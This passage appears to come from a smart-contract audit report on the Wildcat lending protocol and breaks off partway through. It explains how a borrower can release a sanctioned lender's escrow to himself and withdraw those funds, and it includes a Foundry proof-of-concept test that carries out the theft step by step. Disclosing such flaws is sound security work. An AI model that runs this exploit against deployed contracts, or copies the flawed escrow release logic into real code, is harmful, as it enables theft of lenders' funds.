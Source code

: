 ```solidity
function releaseEscrow() public override {
  if (!canReleaseEscrow()) revert CanNotReleaseEscrow();

  uint256 amount = balance();
  
  //@audit                 Bob   Larry's $
  //                        â†“       â†“
  IERC20(asset).transfer(account, amount);

  emit EscrowReleased(account, asset, amount);
}
```

After this, Bob simply needs to authorize himself as a lender in his own market and withdraw the actual assets.

Below is a PoC demonstrating how to execute the exploit. To proceed, please include the following import statements in `test/market/WildcatMarketConfig.t.sol`:

```solidity
import 'src/WildcatSanctionsEscrow.sol';

import "forge-std/console2.sol";
```

Add the following test `test/market/WildcatMarketConfig.t.sol` as well:

```solidity
function test_borrowerCanStealSanctionedLendersFunds() external {
  vm.label(borrower, "bob"); // Label borrower for better trace readability

  // This is Larry The Lender
  address larry = makeAddr("larry");

  // Larry deposists 10e18 into Bob's market
  _deposit(larry, 10e18);

  // Larry's been a bad guy and gets sanctioned
  sanctionsSentinel.sanction(larry);

  // Larry gets nuked by the borrower
  vm.prank(borrower);
  market.nukeFromOrbit(larry);

  // The vulnerable escrow in which Larry's funds get moved
  address vulnerableEscrow = sanctionsSentinel.getEscrowAddress(larry, borrower, address(market));
  vm.label(vulnerableEscrow, "vulnerableEscrow");

  // Ensure Larry's funds have been moved to his escrow
  assertEq(market.balanceOf(larry), 0);
  assertEq(market.balanceOf(vulnerableEscrow), 10e18);

  // Malicious borrower is able to release the escrow due to the vulnerability
  vm.prank(borrower);
  WildcatSanctionsEscrow(vulnerableEscrow).releaseEscrow();

  // Malicious borrower has all of Larry's tokens
  assertEq(market.balanceOf(borrower), 10e18);

  // The borrower authorizes himself as a lender in the market
  _authorizeLender(borrower);

  // Queue withdrawal of all funds
  vm.prank(borrower);
  market.queueWithdrawal(10e18);

```